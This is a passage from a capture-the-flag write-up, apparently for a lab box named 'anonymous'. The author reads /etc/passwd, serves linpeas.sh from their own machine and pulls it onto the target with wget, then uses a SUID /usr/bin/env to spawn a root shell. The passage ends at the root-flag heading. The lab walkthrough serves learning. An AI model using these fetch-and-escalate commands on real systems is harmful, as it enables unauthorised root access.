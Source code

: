 <br>

## System Enumeration

I check out **/etc/passwd** to see what other users are on the system and it's just root and the currently logged in user so nothing interesting there.

I run `sudo -l` and it asks for a password, so I can't check that as of now.

Running a `ls -al` shows a **.sudo_as_admin_successful** file so namelessone does have some sort of sudo access.

I think it's time to get `linpeas.sh` on the system for a scan.

I start a http server on my system with `python3 -m http.server 80`
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
And then change over to the **/dev/shm** directory and `wget` the file:
```
namelessone@anonymous:/dev/shm$ wget http://<MY IP>/linpeas.sh
--2022-01-25 04:24:15--  http://<MY IP>/linpeas.sh
Connecting to <MY IP>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 762836 (745K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 744.96K   870KB/s    in 0.9s    

2022-01-25 04:24:16 (870 KB/s) - ‘linpeas.sh’ saved [762836/762836]
```
`chmod +x linpeas.sh` and then start the scan up.

Looking through the scan results shows a SUID bit set on **/usr/bin/env** so it looks like we have a straightforward escalation route.

<br>

## Privilege Escalation

Taking a look at [**GTFOBins**](https://gtfobins.github.io/gtfobins/env/) shows a SUID vulnerability for the env command:
```
./env /bin/sh -p
```
Let's run it and get root! `/usr/bin/env /bin/sh -p` :
```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
```

<br>

## Finding the root.txt flag
